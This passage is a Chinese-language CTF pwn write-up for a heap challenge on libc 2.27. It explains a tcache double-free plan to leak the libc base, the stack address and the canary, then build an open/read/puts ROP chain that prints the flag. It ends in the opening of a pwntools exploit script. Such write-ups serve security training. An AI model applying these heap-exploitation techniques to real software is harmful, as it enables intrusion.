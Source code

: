 

程序开始让输入了一长串内容到栈上，并且没有溢出，于是想到可能是要在栈上构造rop。

除去这些程序的功能就是普通堆题的功能。出题人提示这题的环境搭建在libc2.23或libc2.27，需要自己发现。

结果测试了一下发现有tcache...是在libc2.27上，但是我电脑里只有ubuntu16，于是花了半天在ubuntu16上折腾。发现实在不行，又花了一天配置ubuntu18的环境，用掉了好多时间。

虽然execve被禁用了，但是open，read，puts都是可以使用的，只需要在栈上构造一条rop链来利用。

那么既需要泄露libc_base，又需要泄露栈。

最终利用思路如下：

1. 填满0xa0的tcache，然后泄露出unsorted_bin的地址从而算出libc_base，environ，之前提到的函数，以及pop_rdi，pop_rsi，pop_rdx三个gadget来为函数传参。
2. 利用double free分配一个堆块到bss上存放chunk size的地方（利用某个size作为堆块的size域），并往下填充，把第一个堆块指针覆盖为environ。利用读功能泄露出栈地址后，结合动态调试得到的偏移，算出一开始输入内容的栈地址以便后续利用。
3. 由于要构造rop，泄露canary必不可少，那么之前第一个输入就可以用来构造fakechunk，double free分配chunk到该位置，填充到canary最后一位然后利用读功能就可以泄露canary了。
4. 那么要在什么地方构造rop chain，由于tcache机制是在太宽松，所以double free分配出来的堆块几乎可以是任意大小，于是只要在某个函数的返回地址构造rop chain就可以执行rop来输出flag了。main函数不太可行，因为有一个死循环不让它返回，于是可以试试控制new函数的返回。动态调试找到new后面某个位置（其实按理来说有tcache不用关心构造fakesize，但是为了防止这类题被出在libc2.23我还是按照这个思路走一走），构造rop chain+“flag\x00”
5. 最后随便new一个块，就可以收到flag了



#### exp: 

```python
from pwn import *

#p = remote("pwn.challenge.mini.lctf.online",10085)
p = process("./pwn")
elf = ELF("./pwn")
libc = ELF("libc.so.6")

context.log_level = "debug"

def new(size:int,content):
    p.recvuntil(b">> ")
    p.sendline(b"1")
    p.recvuntil(b"size?\n")
    p.sendline(str(size).encode())
    p.recvuntil(b"content?\n")
    p.send(content)
    
def delete(idx:int):
    p.recvuntil(b">> ")
    p.sendline(b"2")
    p.recvuntil(b"index ?\n")
    p.sendline(str(idx).encode())    
    
def write(idx:int):
    p.recvuntil(b">> ")
    p.sendline(b"3")
    p.recvuntil(b"index ?\n")
    p.sendline(str(idx).encode()) 

note_addr = 0x6020C0
notesize6_addr = 0x602058



def exp():
    pop_rdi = 0x2155f
    pop_rsi = 0x23e6a
    pop_rdx = 0x1b96
```